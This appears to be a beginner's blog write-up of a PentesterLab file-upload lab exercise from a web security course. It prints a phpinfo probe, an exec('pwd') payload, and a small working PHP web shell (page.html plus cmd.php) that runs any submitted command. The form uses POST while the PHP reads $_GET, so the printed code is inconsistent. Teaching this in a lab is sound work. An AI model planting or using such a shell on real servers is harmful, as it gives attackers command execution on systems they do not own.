 # Baby's first PHP shell
I previously had been auditing a course here at Portland State for web application security -- the faculty provides all the course material for free online, so anyone can take a look at it. The aim of the course is to get students familiar with basic security principles -- things to watch out for when developing hosted applications and how web applications behave in comparison to desktop or server-based programs. A server-side application may have a vulnerability in terms of passing un-validated data for execution, but that has a different threat model in comparison to a public website. Either way, the point is to instill best practices and have this cascade over to other development projects.  


For our testing sandbox, we relied on pre-configured images from PentesterLab (link below for the curious)  

https://pentesterlab.com/exercises/web_for_pentester/attachments  


Pentester Lab is a great resource that provides guides on how to execute various exploits -- SQL injections, XSS attacks, and (what we're talking about today) PHP shells, to name a few.  


I have some experience with web site exploitation but have never really executed a PHP shell attack -- I really had only heard the words "PHP Shell" and knew nothing past that point. I set up the ISO in Virtual Box locally and fired it up to get started.  


Clicking on the File Upload 1 exercise, if we successfully upload a file we receive this response:  

 
![Upload](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/1UploadProcess.png)  


Clicking on the link in the response takes us directly to the image as well as shows where that image is on the server. From this URL, we can tell exactly where the file is on the server as well.  


![Raccoon](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/2UploadResult.png)  


Most websites nowadays screen for the filetype that's being uploaded to prevent remote code execution as a precaution. Instead of a jpeg, I'm going to upload a PHP file, which, if executed, will show the version of PHP running on the server. You can create this file by typing the following into a file and saving it off as a .php file -- the name does not matter.  


`<?php phpinfo();?>`

That's all! The ?php portion initializes PHP by saying, "I am going to run a PHP function." The phpinfo(); is the actual function call which shows PHP's configuration on this server.  


![PHP Info](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/3phpinfo.png)  


Success! So what other commands can we send to this server through the file upload feature? PHP has a couple of functions that we can use to accomplish this if we combine them together.  


The PHP exec command will accept a system command as an argument and can store the result as a variable. The echo command works the same as on the command line -- it'll show whatever is passed to it to the screen. You can read more about both these commands here in the PHP manual:  


https://www.php.net/manual/en/function.exec.php
https://www.php.net/manual/en/function.echo.php  


So what if we modify that phpinfo file to list what directory we are in by executing the pwd linux command?  


    <?php echo exec("pwd")?>

![PWD](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/4pwd.png)  


I am a bit lazy, though, and don't want to have to upload a file every single time that I want to execute a command, so let's make an html form that passes a command to be executed by the php. I'll split this out into two files -- page.html will have all form materials and cmd.php will execute the command.  


## page.html
    <html>
    <body>
    <form method="POST" action="cmd.php">
        <input type="text" id="command" name="command" >
            <input type="submit" name="submit">
    </form>
    </body>
    </html>

## cmd.php
 
    <html>
    <body>
    <?php
    $var = $_GET['command'];
    echo exec($var);
    ?>
    </body>
    </html>

Now, when I type a command into here and submit...
![Execute](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/5query.png)

I get a new page with the results!
![Result](https://github.com/mattkduran/mattkduran.github.io/blob/master/_thumbnails/2020-03-14/6catResult.png)
